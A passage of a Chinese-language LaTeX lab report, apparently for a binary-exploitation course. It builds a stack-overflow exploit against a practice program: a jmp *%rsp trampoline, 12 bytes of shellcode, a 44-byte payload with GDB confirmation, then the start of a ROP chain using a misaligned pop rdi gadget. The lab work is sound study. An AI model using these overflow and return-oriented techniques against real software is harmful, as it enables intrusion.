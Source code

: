 \documentclass[UTF8,11pt,fontset=fandol]{ctexart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\subsection{jmp 到栈上}

\code{dark-calc} 的可执行 LOAD 段里，\code{0x401e0b} 有两个字节 \code{ff e4}，即 \code{jmp *\%rsp}。把返回地址覆盖成 \code{0x401e0b}，\code{input} 的 \code{ret} 就会跳到这里；此时 \code{rsp} 指向返回地址后面的 8 字节，也就是我放在那里的 shellcode。这样不用知道栈的绝对地址，也不依赖 \code{fixed\_stack\_top} 的具体值。

\pagebreak[4]
shellcode 只有 12 字节：

\begin{lstlisting}
bf 04 00 00 00    mov $0x4,%edi
b8 87 1a 40 00    mov $0x401a87,%eax
ff d0             call *%rax
\end{lstlisting}

不能用 \code{call rel32}，因为 shellcode 在栈上，栈地址和代码段的距离不是常数；先用 \code{mov \$imm32,\%eax} 把地址装进 \code{eax}，再用 \code{call *\%rax} 调过去，就可以把 \code{grade\_eval} 的绝对地址编进指令。进入 shellcode 时 \code{rsp=0x721000800ff0}，是 16 的倍数，\code{call *\%rax} 压 8 字节后 \code{grade\_eval} 入口的 \code{rsp\%16=8}，符合 ABI。

payload 是 16 个 \code{A}、8 字节随便填的 \code{rbp}、\code{0x401e0b}，再加 12 字节 shellcode，总共 44 字节。GDB 在 \code{grade\_eval} 断下时 \code{rdi=4}，返回地址 \code{0x721000800ffc} 正是 \code{call} 的下一条：

\begin{lstlisting}
Breakpoint 1, 0x0000000000401a87 in grade_eval ()
rip  0x401a87 <grade_eval>   rsp  0x721000800fe8   rdi  0x4
#0  0x0000000000401a87 in grade_eval ()
#1  0x0000721000800ffc in ?? ()
\end{lstlisting}

输出里有 \code{Hope A will be your grade!}。\code{grade\_eval} 返回后没有 \code{exit} 可走，控制流落到 \code{0x800ffc} 后面的零字节并崩溃，不过 \code{grade\_eval} 内部已经 \code{fflush(stdout)}，消息不会丢。

\section{任务三：NX 栈上的 ROP}

\code{dark-calc-nx} 的栈不可执行，但代码段是非 PIE，地址固定。任务提示说 gadget 在 \code{0x4019d0} 到 \code{0x401ae3} 之间，这一段就是 \code{\_\_libc\_csu\_init}。正常反汇编里没有 \code{pop rdi; ret}，但 \code{0x401a32} 处的 \code{41 5f} 是 \code{pop r15}，从第二个字节 \code{5f} 开始就是 \code{pop rdi}，下一个字节 \code{c3} 正好是 \code{ret}：
\end{document}

